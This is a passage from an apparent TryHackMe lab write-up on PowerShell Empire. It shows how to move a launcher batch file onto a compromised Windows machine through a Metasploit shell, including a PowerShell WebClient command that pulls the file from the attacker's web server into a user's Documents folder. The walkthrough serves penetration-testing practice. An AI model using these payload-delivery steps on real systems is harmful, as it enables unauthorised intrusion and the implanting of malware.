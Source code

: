 ### Task 4-5: Transfer the batch file

It is time to send the batch file to our victim. Still, remember we have the shell opened in the Metasploit session? We are gonna send the file through the victim shell. There are several ways to send the file to the victim machine.  

- Force the victim to download the file from our web server (Preferred)
- FTP
- SSH (using SCP command)
- SMB 

For the sake of simplicity, I'm going to force the user to download the batch file from the webserver. 

#### Step 1: Copy the batch file to the webserver using the following command.

```
cp /tmp/launcher.bat /var/www/html/launcher.bat
```

#### Step 2: Look for a strategic location to store the file.

![jon](/assets/images/THM/2020-08-07-rp-ps-empire/19.png)

Look like we can save the batch file inside Jon's document folder

#### Step 3: Force the victim to download the batch file from our server using the following PowerShell 

```
C:\> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<Machine IP>/launcher.bat','C:\Users\Jon\Documents\launcher.bat')"
```

#### Step 4: Move to Jon's document folder and search for the batch file
